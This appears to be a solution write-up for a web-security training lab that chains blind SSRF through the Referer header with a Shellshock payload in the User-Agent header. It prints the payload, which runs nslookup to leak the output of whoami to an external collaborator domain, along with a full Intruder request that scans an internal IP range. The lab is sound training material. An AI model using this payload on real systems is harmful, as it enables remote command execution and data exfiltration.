

---
tags:
  - ssrf
  - shellshock
---
# Blind SSRF with Shellshock exploitation

## Instructions

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

## Solution

Note that adding a collaborator payload in the referer header results in a request to our collaborator instance that contains a user-agent string.


Send this request to intruder.

Since we're trying to access the admin endpoint on a 192.168.0.X host, that is what needs to go in the referer header. Put the following string in the User-Agent header:

```text title="Shellshock payload"
() { :; }; /usr/bin/nslookup $(whoami).njawgupe4dp38ucetvw4tmwwhnneb6zv.oastify.com
```

Set a placeholder in the last octet of the IP address in the referer header, as shown below:

```text title="Intruder request" hl_lines="4 8"
GET /product?productId=1 HTTP/2
Host: 0aca0004032e8cf4830c64f800d500da.web-security-academy.net
Cookie: session=05yYj1i8IdA67wkxUsEKIUlrPRyPrE9i
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).njawgupe4dp38ucetvw4tmwwhnneb6zv.oastify.com
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.0.1:8080
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-Pwnfox-Color: magenta
Priority: u=0, i
Te: trailers

```

After running this attack through intruder, notice that we get a DNS lookup to collaborator with the username as a subdomain.



Submit the username to solve the lab.

